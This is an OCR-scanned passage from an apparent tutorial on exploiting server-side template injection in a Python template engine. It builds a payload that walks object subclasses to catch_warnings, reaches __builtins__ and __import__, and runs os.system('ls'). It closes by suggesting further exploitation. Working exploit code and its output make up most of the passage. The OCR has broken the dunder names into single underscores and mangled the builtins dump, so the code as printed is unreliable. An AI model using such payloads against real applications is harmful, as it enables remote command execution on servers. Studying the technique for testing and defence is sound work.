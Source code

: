 Within all the subclasses there is a class named catch warnings. This is the subclass we'll use to construct our exploit. To find the catch warnings subclass, inject a loop into the template code to look for it:
```
{% for x in []._class_._bases_[0]._subclasses_() %}
{% if 'catch warnings' in x._name_%} 
{{x()._module._builtins_}}
{%endif%}
{%endfor%}
```

This loop goes through all the subclasses and finds the one with the string catch warnings in its name. Then it instantiates an object of that class. Objects of the class have an attribute called module that refers to the warnings module. Finally, we use the reference to the module to refer to the builtins module:
```
(' name ': 'builtins', ' doc ': "Built-in functions, exceptions, and other objects.
nNoteworthy: None is the 'nil' object; Ellipsis represents '...' in slices.", ' package ': '', ' loader ': «class ' frozen importlib.BuiltinImporter'», ' spec ': ModuleSpec(name'builtins', loader-«class ' frozen importlib.BuiltinImporter'»), ' build class ^": «built-in function build class », ' import ^": «built-in function — import >, 'abs': «built-in, function abs», 'all': «built-in function all>, 'any': «built-in function any», ‘ascii’: <built-in function ascii», 'bin': «built-in function bin», 'breakpoint': «built-in function breakpoint>, 'callable': «built-in function callable», 'chr': «built-in function chr», 'compile': «built-in function compile», 'delattr': «built-in function delattr>, 'dir': «built-in function dir», 'divmod': «built-in function divmod>, 'eval': «built-in function eval>, 'exec': «built-in function exec», 'format': «built-in function format», 'getattr': <built-in function getattr>, 'globals': «built-in function globals>, 'hasattr': «built-in function hasattr», 'hash': «built-in function hash», 'hex': «built-in function heo, 'id': «built-in function id», 'input': «built-in function input», 'isinstance': «built-in function isinstance>, 'issubclass': «built-in function issubclass>, 'iter': «built-in function iter», 'len': «built-in function len», 'locals': «built-in function locals», 'max': «built-in function max», 'min': «built-in function min», 'next': «built-in function next», 'oct': «built-in function oct», 'ord': «built-in function ord», 'pow': «built-in function pow», 'print': «built-in function print», 'repr': «built-in function repr», 'round': «built-in function round», 'setattr': «built-in function setattr>, 'sorted': «built-in function sorted», 'sum': «built-in function sum», 'vars': «built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': «class 'bool'», 'memoryview': «class 'memoryview'>, 'bytearray': «class 'bytearray'>, 'bytes': «class 'bytes'>, 'classmethod': «class 'classmethod'>, ...}
```
And in that mess of available functions we finally found our lovely import. Now lets use our new found import:
```
{% for x in []._class_._bases_[0]._subclasses_() %}
{% if 'catch warnings' in x._name_%} 
{{x()._module._builtins_['_import_']('os')}}
{%endif%}
{%endfor%}
```
Voila, we imported "command line" to our code. We can try to do some PoC with it:
```
{% for x in []._class_._bases_[0]._subclasses_() %}
{% if 'catch warnings' in x._name_%} 
{{x()._module._builtins_['_import_']('os').system('ls')}}
{%endif%}
{%endfor%}
```
Or maybe with new found files we can exploit it even further?
